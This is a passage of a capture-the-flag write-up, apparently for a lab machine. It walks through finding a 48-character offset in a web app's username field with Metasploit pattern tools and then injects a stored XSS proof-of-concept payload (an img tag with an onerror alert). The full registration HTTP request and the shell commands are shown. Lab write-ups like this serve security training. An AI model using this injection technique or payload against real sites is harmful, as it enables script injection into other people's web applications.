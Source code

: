 {% code overflow="wrap" %}
```apacheconf
msplmee@kali:~$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```
{% endcode %}

I create a new clipnote after registering an account with a generated username.

```http
POST /register HTTP/1.1
Host: 10.10.11.190:3000
Content-Length: 292
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.190:3000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.190:3000/register
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _simple_rails_session=yN7wkslQl0F4LYKMcXjYCYbMtn8D9b30dVSZRG%2BCLGW4%2BobehZ2p7omErioxaiL5PJYLtb%2BH5kzS4jfFKy11uXIZK54Y%2F9Oz6owJ4C%2BNaxGnFyBCBiTfXyCcUuVSVkToUr%2B0muUrmu9Uik5UaYe4JG2mfqAkTXVK1W8wW0qPVkSm4am6oWvdF4S0cX04NYkgs5Od2W6RKc%2FQ5fVSoMnQZIoEPZyFF9r9Jgv0JQZv%2BfFTYafUqxewFEDA0NThrQnSawFhQscZcCISAoUXUvTYLmLKtfEEoLG5zRta24E%3D--1ahezN6HOQRsn86j--qFqpfkSHYOP92wb12IxqgQ%3D%3D
Connection: close

authenticity_token=A3P3TWtkxTrHRgFwvFr1tciA7jR_J9n5Q-ZJmmofiuT2xY50j_wvZxWa-t1Q7sZtkgn9ILtua61LeFgmbJ4ycw&user%5Busername%5D=Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A&user%5Bpassword%5D=msplmee&user%5Bpassword_confirmation%5D=msplmee
```

The full username is there, and the created string is part of the username.

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

In fact, it’s 48 bytes into the username:

```apacheconf
msplmee@kali:~$ msf-pattern_offset -q Ab6A
[*] Exact match at offset 48
```

I will create a username with 48 random characters, and then add a basic image tag with an XSS POC payload to trigger an alert. It's work:

```apacheconf
msplmee@kali:~$ python3 -c "print('A'*48+ \"<img src='#' onerror=alert(1)/>\")" 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA<img src='#' onerror=alert(1)/>
```
